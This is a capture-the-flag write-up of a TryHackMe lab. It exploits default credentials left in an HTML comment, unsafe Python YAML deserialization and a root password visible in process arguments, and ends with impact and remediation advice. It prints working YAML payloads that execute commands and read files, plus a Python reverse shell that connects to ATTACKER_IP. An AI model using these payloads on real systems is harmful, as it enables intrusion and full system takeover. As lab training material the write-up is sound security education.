








# Overview

**Target**:  [Beach Bar](https://tryhackme.com/room/hh-beachbar-d849f7f7)

**Difficulty:** Easy

<details>  
<summary>⚠️ Quick summary (spoiler)</summary>  
  
The objective of this challenge was to compromise a vulnerable web application, obtain the user flag, and ultimately escalate privileges to retrieve the root flag.
  
</details>

# Reconnaissance

Browsing to the target revealed a simple authentication portal with no functionality available to unauthenticated users.

The interface exposed only a login form, with no registration or password recovery mechanisms.



Before attempting credential attacks, the application's source code was inspected using the browser's developer tools.

A forgotten HTML comment exposed default credentials intended for demonstration purposes:



This immediately provided valid credentials for the application.

# Initial Access

After authenticating, three sections became available:

- Dashboard
- Import
- Export

The **Dashboard** contained no sensitive functionality.

The **Export** feature automatically generated a YAML document representing the current playlist configuration.

## YAML Deserialization

The **Import** panel accepted arbitrary YAML supplied by the user.

After submitting data, the application returned the parsed content converted into JSON.



This behavior strongly suggested that the server parsed user-controlled YAML before serialization.

Because unsafe YAML parsers can instantiate arbitrary Python objects during deserialization, several common payloads were tested.

The following payload successfully executed the Linux `id` command:

```YAML
!!python/object/apply:subprocess.check_output 
- ['id']
```

The command output confirmed arbitrary code execution on the target.




The vulnerability was therefore identified as **unsafe YAML deserialization**, allowing Remote Code Execution (RCE).

## User Flag

With arbitrary command execution confirmed, retrieving the user flag required only reading the corresponding file.

The following payload was submitted:

```
!!python/object/apply:subprocess.check_output
- ['cat','/home/USER/user.txt']
```

The application returned the contents of the file, revealing the user flag.



# Interactive Access

Although arbitrary command execution was sufficient for file disclosure, an interactive shell greatly simplified post-exploitation.

A Python reverse shell was executed through the YAML deserialization vulnerability.

```
!!python/object/apply:os.system
["python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER_IP\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'"]
```

After starting a listener locally, the target successfully connected back, providing an interactive shell.



# Privilege Escalation

Reviewing running processes revealed an interesting service executed with root privileges:



The process arguments exposed what appeared to be a plaintext password.

Because the process was running as **root**, the discovered password was tested using `su`.

Authentication succeeded, providing a root shell. With administrative privileges obtained, the root flag was recovered.



# Conclusion

The attack chain consisted of several independent security failures that, when combined, resulted in full system compromise.

The first weakness was the disclosure of hardcoded credentials inside an HTML comment. Although hidden from normal users, client-side comments are fully accessible through source inspection and should never contain sensitive information.

After authentication, the application exposed an import feature that performed **unsafe YAML deserialization**.

Instead of parsing YAML as plain data, the underlying parser accepted Python-specific object tags (`!!python/object/apply`), allowing arbitrary function invocation.

This vulnerability provided unrestricted Remote Code Execution under the privileges of the web application.

Finally, local privilege escalation became possible because a privileged process exposed operational credentials directly through its command-line arguments.

Since process arguments are visible to local users, embedding passwords in this manner effectively disclosed privileged authentication material.

Together, these weaknesses enabled complete compromise of the target system without requiring any software exploit beyond insecure application design.

# Real World Impact

Unsafe deserialization vulnerabilities remain among the most critical application security flaws because they frequently lead directly to Remote Code Execution.

If exploited in production, an attacker could:

- Execute arbitrary operating system commands.
- Read or modify sensitive application files.
- Deploy malware or persistence mechanisms.
- Access databases and application secrets.
- Pivot into internal infrastructure.
- Obtain complete administrative control if privilege escalation paths exist.

Likewise, exposing credentials through process arguments significantly increases the impact of any local compromise, allowing attackers to escalate privileges with minimal effort.

# Remediation

Several security controls would have prevented the attack chain observed during this assessment:

- Never embed credentials, API keys, or operational notes inside client-side source code.
- Replace unsafe YAML loaders with secure alternatives (e.g., `yaml.safe_load()` in Python).
- Validate imported YAML against a strict schema before processing.
- Disable support for Python object deserialization whenever arbitrary user input is accepted.
- Avoid passing passwords through command-line arguments; instead, use protected configuration files or secret management solutions.
- Restrict local visibility of sensitive process information wherever possible.
- Apply the principle of least privilege to application services to reduce post-exploitation impact.